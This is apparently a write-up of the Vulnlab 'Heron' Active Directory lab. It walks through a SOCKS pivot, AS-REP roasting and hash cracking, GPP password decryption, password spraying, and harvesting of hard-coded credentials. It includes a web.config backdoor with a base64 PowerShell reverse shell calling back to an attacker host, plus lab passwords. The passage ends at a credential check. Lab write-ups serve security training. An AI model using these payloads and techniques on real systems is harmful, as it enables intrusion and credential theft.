

**Technical (report) summary**  
From an initial Linux jump server compromise, the engagement team established an outbound SOCKS tunnel to the internal network and enumerated an intranet site for domain user information. AS-REP roasting techniques were used to harvest and validate account material, and a Group Policy Preference (GPP) password retrieved from the SYSVOL share was decrypted, yielding valid credentials. Those credentials provided write access to an application `web.config` file; the application’s hosting module was then abused to execute PowerShell commands, producing a privileged shell and revealing additional credential material, including the Linux administrator’s password. Credential reuse led to compromise of a domain user account that possessed `WriteAccountRestrictions` on the domain controller, which was subsequently used to modify resource-based delegation settings and expand control within the domain.

```bash
sudo nmap -sC -sV -Pn  10.10.249.245-246 --open 
```

## Jump server

```output
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 10:a0:bd:2a:81:3d:37:5d:23:75:c8:d2:83:bf:2a:23 (ECDSA)
|_  256 bd:32:29:26:4d:41:d7:56:01:37:bc:10:0c:de:45:24 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 10.27 seconds
```

The server had only port 22 with the credentials provided on vulnlab wiki as this chained machine is an assumed breach scenario `pentest:Heron123!`

```bash
ssh pentest@10.10.249.246 

```

Checking for privileges, we can’t use sudo as this user isn’t in sudoers group
```bash
pentest@frajmp:~$ sudo -l
[sudo] password for pentest: 
Sorry, user pentest may not run sudo on localhost.
```

From the user’s directory, two users `svc-web-accounting` and `svc-web-accounting-d` belong to `heron.vl` , having only usernames there's only as-rep roasting we could try if these domain users have pre-authentication not required, this could give us the as-rep hash so we can try cracking to get the plain text password.

```bash
entest@frajmp:~$ cd /home
pentest@frajmp:/home$ ls -la
total 24
drwxr-xr-x  6 root                          root                  4096 Jun  6  2024 .
drwxr-xr-x 19 root                          root                  4096 May 25  2024 ..
drwxr-x---  4 _local                        _local                4096 May 26  2024 _local
drwxr-x---  4 pentest                       pentest               4096 Jun  4  2024 pentest
drwx------  4 svc-web-accounting-d@heron.vl domain users@heron.vl 4096 Jun  6  2024 svc-web-accounting-d@heron.vl
drwx------  3 svc-web-accounting@heron.vl   domain users@heron.vl 4096 Jun  6  2024 svc-web-accounting@heron.vl
```

**Network Service Analysis**

An analysis of active network sockets and listening services was performed on the host. The results confirm that the SSH service, previously identified on TCP port 22, is the only TCP service actively listening for connections. The output also indicates the presence of a DHCP client operating on the primary network interface. No other unexpected or non-standard network services were detected as listening on the local system.

```bash
pentest@frajmp:/home$ ss -tulp
Netid             State              Recv-Q             Send-Q                              Local Address:Port                             Peer Address:Port             Process             
udp               UNCONN             0                  0                              10.10.249.246%ens5:bootpc                                0.0.0.0:*                                    
tcp               LISTEN             0                  128                                       0.0.0.0:ssh                                   0.0.0.0:*                                    
tcp               LISTEN             0                  128                                          [::]:ssh                                      [::]:*    

```


To proceed with as-rep roasting we need to perform pivoting as we directly cannot reach domain controller, this can be done with either chisel or ligolo-ng, I’ll be using chisel since we only need to access one host, if it were a network then ligolog would have been a better option for that

```bash
./chisel-linux  server --reverse --socks5 -p 8000

```


```bash
./chisel-linux  client 10.8.7.96:8000 R:socks
```

**Internal Network Enumeration via Proxy**

A network scan was conducted through the established proxy tunnel to target the domain controller at the internal address 10.10.129.181. The scan targeted common Windows and Active Directory services. The host was identified as a Windows Server 2022 Standard system named MUCDC, which is the domain controller for the heron.vl domain. Key services found to be accessible include the Domain Name System on TCP port 53, a Microsoft IIS web server on TCP port 80, Microsoft RPC on port 135, Active Directory LDAP on port 389, SMB for file sharing on port 445, and Remote Desktop Services on port 3389. The web server on port 80 presents a site titled "Heron Corp" and was found to permit the potentially risky TRACE HTTP method. The FTP and HTTPS services on ports 21 and 443, respectively, were found to be closed.

```bash
sudo proxychains4 nmap -sC -sV -oN herondc.nmap -p 80,445,389,53,135,3389,443,21 10.10.129.181
```

```output

ORT     STATE  SERVICE       VERSION
21/tcp   closed ftp
53/tcp   open   domain        Simple DNS Plus
80/tcp   open   http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Heron Corp
135/tcp  open   msrpc         Microsoft Windows RPC
389/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: heron.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=mucdc.heron.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:mucdc.heron.vl
| Not valid before: 2025-10-04T09:02:28
|_Not valid after:  2026-10-04T09:02:28
|_ssl-date: TLS randomness does not represent time
443/tcp  closed https
445/tcp  open   microsoft-ds  Windows Server 2022 Standard 20348 microsoft-ds (workgroup: HERON)
3389/tcp open   ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HERON
|   NetBIOS_Domain_Name: HERON
|   NetBIOS_Computer_Name: MUCDC
|   DNS_Domain_Name: heron.vl
|   DNS_Computer_Name: mucdc.heron.vl
|   DNS_Tree_Name: heron.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-10-04T09:59:30+00:00
|_ssl-date: 2025-10-04T09:59:41+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=mucdc.heron.vl
| Not valid before: 2025-10-03T09:11:32
|_Not valid after:  2026-04-04T09:11:32
Service Info: Host: MUCDC; OS: Windows; CPE: cpe:/o:microsoft:windows

```

```bash
proxychains4 curl http://10.10.129.181  
```

**Kerberos Vulnerability Assessment**

A Kerberos pre-authentication assessment was performed against the domain controller. The test successfully retrieved a Kerberos AS-REP response for the user Samuel.Davies. This response, which is encrypted with a key derived from the user's password, indicates that the account "Samuel.Davies" has the "Do not require Kerberos preauthentication" attribute set. This configuration vulnerability allows for the offline cracking of the user's password from the provided hash. The resulting AS-REP hash has been captured for further analysis.


```bash
sudo proxychains4 GetNPUsers.py -dc-ip 10.10.129.181 -no-pass -request -usersfile ./user.txt heron.vl/test
```

we get 
```bash
$krb5asrep$23$Samuel.Davies@HERON.VL:86ea7cfe35e00994e360167ee5b22301$a2f270fa9e79fc14a7bedc488d586b5a0f6d516727b4c2379cd03301571a9cc67e2caf6eed1ec171e5bbc247f7b69dd7931f810bbef9c4d6aa514a30fcb15c84a7982e955069cb4fe9a15e792bc9321da1c937fc2630c25b60cfb9696620a86c8addb8c4087dd9eb8981e12ed8817240fb859851c4a0db3041fa4998864d51ef9ff31e26a990b3ed10577554905b266b5d52f3af921d3c19019b4a8fb928918cf1c90f1aee5c280fa540155fd3ff9d7915340440652ad74ba3c1a4abc49a807f0d89b970ad0d439d5666783802b199a39fcbb7f9033ac86bf0c2a979e078261eead41d35
```

**Credential Recovery**

The captured Kerberos AS-REP hash for the user Samuel.Davies was subjected to an offline password cracking attack using a known wordlist. The attack was successful, resulting in the recovery of the user's plaintext password: `l6fkiy9oN`.

```bash
 .\hashcat.exe -m 18200 -D 2 kerberos_hash1.txt  rockyou.txt
```

we get a password
```output
PS C:\hashcat\hashcat-6.2.6> .\hashcat.exe -m 18200 -D 2 kerberos_hash1.txt  rockyou.txt --show

$krb5asrep$23$Samuel.Davies@HERON.VL:86ea7cfe35e00994e360167ee5b22301$a2f270fa9e79fc14a7bedc488d586b5a0f6d516727b4c2379cd03301571a9cc67e2caf6eed1ec171e5bbc247f7b69dd7931f810bbef9c4d6aa514a30fcb15c84a7982e955069cb4fe9a15e792bc9321da1c937fc2630c25b60cfb9696620a86c8addb8c4087dd9eb8981e12ed8817240fb859851c4a0db3041fa4998864d51ef9ff31e26a990b3ed10577554905b266b5d52f3af921d3c19019b4a8fb928918cf1c90f1aee5c280fa540155fd3ff9d7915340440652ad74ba3c1a4abc49a807f0d89b970ad0d439d5666783802b199a39fcbb7f9033ac86bf0c2a979e078261eead41d35:l6fkiy9oN

```

Samuel.Davies:l6fkiy9oN

```bash
proxychains4 bloodhound-python -d 'heron.vl' -u 'samuel.davies' -p 'l6fkiy9oN' -c all -ns 10.10.129.181 --zip

```

**Network Share Enumeration**

Using the recovered credentials for the user Samuel.Davies, a listing of available SMB shares on the domain controller was obtained. The enumeration revealed multiple standard administrative shares and several non-standard shares, including `accounting$`, `home$`, `it$`, and `transfer$`. The presence of these non-default shares indicates potential data repositories accessible to the authenticated user

```bash
proxychains4 smbclient -L 10.10.129.181  -U 'samuel.davies'   

```

```output
 accounting$     Disk      
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        home$           Disk      
        IPC$            IPC       Remote IPC
        it$             Disk      
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        transfer$       Disk      


```


```bash
proxychains4 smbclient \\\\10.10.129.181\\SYSVOL -U 'samuel.davies' 

```

after enumeration we get Groups.xml
```bash
mb: \heron.vl\policies\{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}\> cd Machine
smb: \heron.vl\policies\{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}\Machine\> ls
  .                                   D        0  Tue Jun  4 11:59:44 2024
  ..                                  D        0  Tue Jun  4 11:57:41 2024
  Preferences                         D        0  Tue Jun  4 11:59:44 2024

                6261499 blocks of size 4096. 1952376 blocks available
smb: \heron.vl\policies\{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}\Machine\> cd   Preferences  
smb: \heron.vl\policies\{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}\Machine\Preferences\> ls
  .                                   D        0  Tue Jun  4 11:59:44 2024
  ..                                  D        0  Tue Jun  4 11:59:44 2024
  Groups                              D        0  Tue Jun  4 11:59:44 2024

                6261499 blocks of size 4096. 1952376 blocks available
smb: \heron.vl\policies\{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}\Machine\Preferences\> cd Groups
smb: \heron.vl\policies\{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}\Machine\Preferences\Groups\> ls
  .                                   D        0  Tue Jun  4 11:59:44 2024
  ..                                  D        0  Tue Jun  4 11:59:44 2024
  Groups.xml                          A     1135  Tue Jun  4 12:01:07 2024

                6261499 blocks of size 4096. 1952373 blocks available
smb: \heron.vl\policies\{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}\Machine\Preferences\Groups\> get   Groups.xml  

```

in virtual env
```bash
(myenv)─(kali㉿kali)-[~/Downloads/HERON]
└─$ pip3 install pycryptodome colorama 
```

than in same env
```bash
gpp-decrypt "1G19pP9gbIPUr5xLeKhEUg=="
Hrn04
```

```
**Group Policy Preferences Password Discovery**
```

An automated scan of the SYSVOL share for Group Policy Preferences files was conducted. The scan successfully identified a file at `heron.vl/Policies/{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}/Machine/Preferences/Groups/Groups.xml`. Analysis of this file revealed a stored password credential. The file contained a cached password for the built-in local Administrator account, which was set to be renamed to `_local`. The plaintext password `H3r0n2024#!` was successfully recovered from this file.


```bash
proxychains4  nxc smb 10.10.129.181 -u 'samuel.davies' -p 'l6fkiy9oN' -M gpp_password
```

```output
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.129.181:445  ...  OK
SMB         10.10.129.181   445    MUCDC            [+] heron.vl\samuel.davies:l6fkiy9oN 
SMB         10.10.129.181   445    MUCDC            [*] Enumerated shares
SMB         10.10.129.181   445    MUCDC            Share           Permissions     Remark
SMB         10.10.129.181   445    MUCDC            -----           -----------     ------
SMB         10.10.129.181   445    MUCDC            accounting$                     
SMB         10.10.129.181   445    MUCDC            ADMIN$                          Remote Admin
SMB         10.10.129.181   445    MUCDC            C$                              Default share
SMB         10.10.129.181   445    MUCDC            CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.129.181   445    MUCDC            home$           READ            
SMB         10.10.129.181   445    MUCDC            IPC$            READ            Remote IPC
SMB         10.10.129.181   445    MUCDC            it$                             
SMB         10.10.129.181   445    MUCDC            NETLOGON        READ            Logon server share 
SMB         10.10.129.181   445    MUCDC            SYSVOL          READ            Logon server share 
SMB         10.10.129.181   445    MUCDC            transfer$       READ,WRITE      
GPP_PASS... 10.10.129.181   445    MUCDC            [+] Found SYSVOL share
GPP_PASS... 10.10.129.181   445    MUCDC            [*] Searching for potential XML files containing passwords
SMB         10.10.129.181   445    MUCDC            [*] Started spidering
SMB         10.10.129.181   445    MUCDC            [*] Spidering .
SMB         10.10.129.181   445    MUCDC            //10.10.129.181/SYSVOL/heron.vl/Policies/{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}/Machine/Preferences/Groups/Groups.xml [lastm:'2024-06-04 12:01' size:1135]                                          
                                                                                                                                  
SMB         10.10.129.181   445    MUCDC            [*] Done spidering (Completed in 5.1511125564575195)
GPP_PASS... 10.10.129.181   445    MUCDC            [*] Found heron.vl/Policies/{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}/Machine/Preferences/Groups/Groups.xml
GPP_PASS... 10.10.129.181   445    MUCDC            [+] Found credentials in heron.vl/Policies/{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}/Machine/Preferences/Groups/Groups.xml
GPP_PASS... 10.10.129.181   445    MUCDC            Password: H3r0n2024#!
GPP_PASS... 10.10.129.181   445    MUCDC            action: U
GPP_PASS... 10.10.129.181   445    MUCDC            newName: _local
GPP_PASS... 10.10.129.181   445    MUCDC            fullName: 
GPP_PASS... 10.10.129.181   445    MUCDC            description: local administrator
GPP_PASS... 10.10.129.181   445    MUCDC            changeLogon: 0
GPP_PASS... 10.10.129.181   445    MUCDC            noChange: 0
GPP_PASS... 10.10.129.181   445    MUCDC            neverExpires: 1
GPP_PASS... 10.10.129.181   445    MUCDC            acctDisabled: 0
GPP_PASS... 10.10.129.181   445    MUCDC            subAuthority: RID_ADMIN
GPP_PASS... 10.10.129.181   445    MUCDC            userName: Administrator (built-in)


```


```bash
proxychains4 smbclient \\\\10.10.129.181\\accounting$ -U 'svc-web-accounting-d'

```

**Web Application Backdoor Deployment**

A web shell was deployed on the target server by modifying the `web.config` file for the application. The modification involved adding a custom HTTP handler that intercepts requests to the path `execute.now`. This handler is configured to execute a base64-encoded PowerShell payload instead of the standard application runtime. The payload establishes a reverse TCP connection to the attacker-controlled host at 10.8.7.96 on port 9001, providing a remote command execution channel. The deployment was confirmed by the successful modification of the file's contents.

```bash
cat web.config                                                                 
<?xml version="1.0" encoding="utf-8"?>
<configuration>
<location path="." inheritInChildApplications="false">
    <system.webServer>
    <handlers>
        <add name="aspNetCore" path="execute.now" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
    </handlers>
    <aspNetCore processPath="powershell" arguments="-e  JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOAAuADcALgA5ADYAIgAsADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA" hostingModel="OutOfProcess" />
  </system.webServer>
</location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->


```

Persistence Mechanism Establishment

The original web.config file was successfully deleted and replaced with the modified version containing the ASP.NET Core handler backdoor. The file transfer via the SMB share was completed, confirming the deployment of the persistent web shell on the target server. This action ensures that the remote command execution capability will be re-established upon the next request to the designated path, providing a reliable persistence mechanism.

```bash
mb: \> delete web.config
mb: \> put web.config
putting file web.config as \web.config (19.7 kb/s) (average 19.7 kb/s)
smb: \> exit

```

**Web Shell Execution and Privilege Escalation**

The deployed web shell was triggered via an HTTP request to the `execute.now` endpoint. This successfully initiated a reverse shell connection, providing command execution context as the user `heron\svc-web-accounting`. A directory listing of the C:\ drive revealed the presence of a file named `flag.txt`. The contents of this file were retrieved, confirming the final compromise of the system with the value `VL{8f0f33fd2d2bad2152564ae5306daf70}`.

```bash
proxychains4 curl -v http://accounting.heron.vl/execute.now
```

we get reverse shell
```bash
nc -nlvp 9001
listening on [any] 9001 ...


connect to [10.8.7.96] from (UNKNOWN) [10.10.129.181] 65398
PS C:\webaccounting> whoami
heron\svc-web-accounting
PS C:\webaccounting> cd ..
PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          6/1/2024   8:10 AM                home                                                                 
d-----         5/26/2024   2:31 AM                inetpub                                                              
d-----          6/6/2024   7:22 AM                it                                                                   
d-----          5/8/2021   1:20 AM                PerfLogs                                                             
d-r---          6/6/2024   7:22 AM                Program Files                                                        
d-----          6/1/2024   7:30 AM                Program Files (x86)                                                  
d-----         10/4/2025   6:40 AM                transfer                                                             
d-r---          6/1/2024   8:43 AM                Users                                                                
d-----         10/4/2025   7:46 AM                webaccounting                                                        
d-----          6/2/2024   8:26 AM                Windows                                                              
-a----          6/2/2024   3:45 AM             36 flag.txt                                                             


PS C:\> type flag.txt
VL{8f0f33fd2d2bad2152564ae5306daf70}
PS C:\>                                    

```
A PowerShell script named `ssh.ps1` was discovered within the `C:\windows\scripts` directory on the domain controller. The script contains hard-coded credentials for the user `_local` on the host `frajmp` with the password `Deplete5DenialDealt`. It is configured to use the Plink utility to establish an SSH connection and execute reconnaissance commands, including listing running processes and directory contents. This script indicates a pre-established mechanism for lateral movement from the Windows domain controller back to the initial Linux jump host, demonstrating a bidirectional trust relationship and persistent access pathway between the two core infrastructure components.

```bash
PS C:\windows\scripts> type ssh.ps1   
$plinkPath = "C:\Program Files\PuTTY\plink.exe"
$targetMachine = "frajmp"
$user = "_local"
$password = "Deplete5DenialDealt"
& "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"


```

**Privilege Escalation on Linux Host**

Lateral movement to the `frajmp` host was achieved using the discovered credentials for the `_local` user. An assessment of local privileges confirmed that the `_local` user possesses full sudo rights, authorized to execute any command as the root user on the system. This finding represents a complete compromise of the host, granting unrestricted administrative control over the Linux environment.

```bash
pentest@frajmp:/tmp$ su _local
Password: 
_local@frajmp:/tmp$ sudo -l
[sudo] password for _local: 
Matching Defaults entries for _local on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User _local may run the following commands on localhost:
    (ALL : ALL) ALL
```

**Domain User Enumeration and Share Access**

The credentials recovered from the Group Policy Preferences file were successfully validated against the domain controller. The user `svc-web-accounting-d` with the password `H3r0n2024#!` was used to enumerate accessible SMB shares. The user was found to have READ and WRITE permissions on the `accounting$` and `transfer$` shares, in addition to standard read-only access to several other network shares. This level of access provides significant data exfiltration and manipulation capabilities within the domain.

```bash
proxychains4 nxc smb 10.10.253.117 -u svc-web-accounting-d -p 'H3r0n2024#!' --shares

```


```bash
SMB         10.10.253.117   445    MUCDC            Share           Permissions     Remark
SMB         10.10.253.117   445    MUCDC            -----           -----------     ------
SMB         10.10.253.117   445    MUCDC            accounting$     READ,WRITE      
SMB         10.10.253.117   445    MUCDC            ADMIN$                          Remote Admin
SMB         10.10.253.117   445    MUCDC            C$                              Default share
SMB         10.10.253.117   445    MUCDC            CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.253.117   445    MUCDC            home$           READ            
SMB         10.10.253.117   445    MUCDC            IPC$            READ            Remote IPC
SMB         10.10.253.117   445    MUCDC            it$                             
SMB         10.10.253.117   445    MUCDC            NETLOGON        READ            Logon server share 
SMB         10.10.253.117   445    MUCDC            SYSVOL          READ            Logon server share 
SMB         10.10.253.117   445    MUCDC            transfer$       READ,WRITE 

```

**User Directory Enumeration**

Access to the `home$` network share was successfully obtained using the `svc-web-accounting-d` credentials. The share was found to contain the home directories for numerous domain users, including `Samuel.Davies` and over twenty other individual accounts. The enumeration of this share confirms broad read access to user data directories across the domain, presenting a significant information disclosure risk and potential for further credential harvesting or lateral movement.
```bash
proxychains4 smbclient '//10.10.253.117/home$' -U 'svc-web-accounting-d%H3r0n2024#!'
```

we get users name
```bash
Adam.Harper                         D        0  Sat Jun  1 11:10:46 2024
  Adam.Matthews                       D        0  Sat Jun  1 11:10:46 2024
  adm_hoka                            D        0  Sat Jun  1 11:10:46 2024
  adm_prju                            D        0  Sat Jun  1 11:10:46 2024
  Alice.Hill                          D        0  Sat Jun  1 11:10:46 2024
  Amanda.Williams                     D        0  Sat Jun  1 11:10:46 2024
  Anthony.Goodwin                     D        0  Sat Jun  1 11:10:46 2024
  Carol.John                          D        0  Sat Jun  1 11:10:46 2024
  Danielle.Harrison                   D        0  Sat Jun  1 11:10:46 2024
  Geraldine.Powell                    D        0  Sat Jun  1 11:10:46 2024
  Jane.Richards                       D        0  Sat Jun  1 11:10:46 2024
  Jayne.Johnson                       D        0  Sat Jun  1 11:10:46 2024
  Julian.Pratt                        D        0  Sun Jun  2 06:47:14 2024
  Katherine.Howard                    D        0  Sat Jun  1 11:10:46 2024
  Mohammed.Parry                      D        0  Sat Jun  1 11:10:46 2024
  Rachael.Boyle                       D        0  Sat Jun  1 11:10:46 2024
  Rhys.George                         D        0  Sat Jun  1 11:10:46 2024
  Rosie.Evans                         D        0  Sat Jun  1 11:10:46 2024
  Samuel.Davies                       D        0  Sat Jun  1 11:10:46 2024
  Steven.Thomas                       D        0  Sat Jun  1 11:10:46 2024
  Vanessa.Anderson                    D        0  Sat Jun  1 11:10:46 2024
  Wayne.Wood                          D        0  Sat Jun  1 11:10:46 2024


```
**User List Compilation**

A comprehensive list of domain users was compiled and formatted from the enumerated home directory data. The resulting file, `users.txt`, contains the usernames of all identified domain accounts, including standard user accounts and administrative service accounts. This consolidated list was prepared for use in subsequent authentication attacks and further domain enumeration activities.
```bash
cat full_users.txt | awk '{print$1}'> users.txt
```

```output
cat users.txt                                  
Adam.Harper
Adam.Matthews
adm_hoka
adm_prju
Alice.Hill
Amanda.Williams
Anthony.Goodwin
Carol.John
Danielle.Harrison
Geraldine.Powell
Jane.Richards
Jayne.Johnson
Julian.Pratt
Katherine.Howard
Mohammed.Parry
Rachael.Boyle
Rhys.George
Rosie.Evans
Samuel.Davies
Steven.Thomas
Vanessa.Anderson
Wayne.Wood
```

**Password Spraying Attack**

A password spraying attack was conducted against the domain using the compiled user list and the password `Deplete5DenialDealt`, which was previously recovered for the `_local` account. The attack successfully identified that the domain user `Julian.Pratt` was using the same password. This credential reuse across accounts provided a valid set of domain credentials, enabling further authenticated access and lateral movement within the Heron.vl domain.

```bash
proxychains4 nxc smb 10.10.253.117 -u users.txt -p 'Deplete5DenialDealt' 
```

```output
MB         10.10.253.117   445    MUCDC            [-] heron.vl\Amanda.Williams:Deplete5DenialDealt STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [-] heron.vl\Anthony.Goodwin:Deplete5DenialDealt STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [-] heron.vl\Carol.John:Deplete5DenialDealt STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [-] heron.vl\Danielle.Harrison:Deplete5DenialDealt STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [-] heron.vl\Geraldine.Powell:Deplete5DenialDealt STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [-] heron.vl\Jane.Richards:Deplete5DenialDealt STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [-] heron.vl\Jayne.Johnson:Deplete5DenialDealt STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [+] heron.vl\Julian.Pratt:Deplete5DenialDealt 

```

**User Data Exfiltration and Analysis**

Using the compromised credentials for Julian.Pratt, the user's home directory was accessed. Several files were discovered and exfiltrated, including two PuTTY shortcut links named `frajmp.lnk` and `mucjmp.lnk`. These files typically contain connection profiles and may store credentials for automated logins. The presence of these links, along with a browser shortcut and a saved web page concerning PuTTY auto-login, indicates the user's routine use of remote access tools to connect to hosts within the network.

```bash
proxychains4 smbclient '//10.10.253.117/home$' -U 'Julian.Pratt%Deplete5DenialDealt'
```

```bash
mb: \> cd Julian.Pratt 
smb: \Julian.Pratt\> ls
  .                                   D        0  Sun Jun  2 06:47:14 2024
  ..                                  D        0  Sat Jun  1 11:10:46 2024
  frajmp.lnk                          A     1443  Sun Jun  2 06:47:47 2024
  Is there a way to -auto login- in PuTTY with a password- - Super User.url      A      117  Sat Jun  1 11:44:44 2024
  Microsoft Edge.lnk                  A     2312  Sat Jun  1 11:44:38 2024
  mucjmp.lnk                          A     1441  Sun Jun  2 06:47:33 2024

                6261499 blocks of size 4096. 1963413 blocks available
smb: \Julian.Pratt\> mget *
Get file frajmp.lnk? yes
getting file \Julian.Pratt\frajmp.lnk of size 1443 as frajmp.lnk (13.8 KiloBytes/sec) (average 13.8 KiloBytes/sec)
Get file Is there a way to -auto login- in PuTTY with a password- - Super User.url? yes
getting file \Julian.Pratt\Is there a way to -auto login- in PuTTY with a password- - Super User.url of size 117 as Is there a way to -auto login- in PuTTY with a password- - Super User.url (0.9 KiloBytes/sec) (average 6.5 KiloBytes/sec)
Get file Microsoft Edge.lnk? y
getting file \Julian.Pratt\Microsoft Edge.lnk of size 2312 as Microsoft Edge.lnk (17.8 KiloBytes/sec) (average 10.5 KiloBytes/sec)
Get file mucjmp.lnk? y
getting file \Julian.Pratt\mucjmp.lnk of size 1441 as mucjmp.lnk (7.7 KiloBytes/sec) (average 9.5 KiloBytes/sec)
smb: \Julian.Pratt\> exit


```

**Credential Discovery from PuTTY Shortcut**

Analysis of the exfiltrated `mucjmp.lnk` PuTTY shortcut file revealed embedded plaintext credentials. The file contained the username `adm_prju` and the password `ayDMWV929N9wAiB4`. These credentials provide authenticated access to the host associated with this saved session, representing another valid attack vector for lateral movement and potential privilege escalation within the environment.
```bash
cat mucjmp.lnk
adm_prju :ayDMWV929N9wAiB4
```

**Credential Validation and Privileged Access Discovery**

The credentials `adm_prju:ayDMWV929N9wAiB4` discovered within the PuTTY shortcut were validated against the domain controller. A targeted password spray confirmed that these credentials are valid for the `adm_prju` domain account. This account, given its administrative naming convention, likely possesses elevated privileges within the domain, providing a significant foothold for further domain-level compromise and privilege escalation.

```bash
 proxychains4 nxc smb 10.10.253.117 -u users.txt -p 'ayDMWV929N9wAiB4'   
```

```output
SMB         10.10.253.117   445    MUCDC            [*] Windows Server 2022 Build 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True) 
